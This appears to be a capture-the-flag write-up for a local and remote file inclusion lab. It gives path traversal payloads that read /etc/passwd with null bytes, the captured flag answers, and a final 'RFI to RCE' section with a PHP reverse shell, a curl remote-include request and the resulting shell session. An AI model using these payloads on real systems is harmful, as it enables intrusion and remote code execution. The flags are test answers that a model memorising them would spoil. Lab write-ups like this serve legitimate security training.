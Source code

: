 # Challenge

### Steps for testing for LFI

1.  Find an entry point that could be via GET, POST, COOKIE, or HTTP header values!  
    
2.  Enter a valid input to see how the web server behaves.
3.  Enter invalid inputs, including special characters and common file names.
4.  Don't always trust what you supply in input forms is what you intended! Use either a browser address bar or a tool such as Burpsuite.
5.  Look for errors while entering invalid input to disclose the current path of the web application; if there are no errors, then trial and error might be your best option.
6.  Understand the input validation and if there are any filters!
7.  Try the inject a valid entry to read sensitive files

## 1
Change Form Method to `POST`

![](../../attachment/7cfce088970ee72f0b2178cd5bcc868c.png)

- F1x3d-iNpu7-f0rrn

## 2

1. Change Cookie to admin
2. Change cookie to LFI String
3. Do path traversal
4. Add nullbytes to escape later code

```bash
../../../../etc/passwd%00
```
![](../../attachment/600d0cda3f04056cf011b8e11a8936d6.png)

- c00k13_i5_yuMmy1

## 3

1.  Go to page source and edit form method to POST
2.  Submit `/etc/passwd`
3.  Go to Proxy -> HTTP History
4.  Find the post request last made and send to Repeater
5.  change POST payload to `file=../../../../etc/flag3%00`
6.  Done

- P0st_1s_w0rk1in9

## RFI to RCE

Get shell

```bash
screen python3 -m http.server 81
```

```bash
echo "<?php exec(\"/bin/bash -c '/bin/bash -i >& /dev/tcp/x.x.x.x/1111 0>&1'\")" > ok.php
```

```bash
curl http://10.10.214.169/playground.php?file=http://10.10.3.197:81/ok.php
```

```bash
root@ip-10-10-3-197:~# rlwrap nc -lvnp 1111
Listening on [0.0.0.0] (family 0, port 1111)
Connection from 10.10.214.169 45496 received!
bash: no job control in this shell
www-data@lfi-vm-thm-f8c5b1a78692:/var/www/html$

www-data@lfi-vm-thm-f8c5b1a78692:/tmp$ hostname
hostname
lfi-vm-thm-f8c5b1a78692
```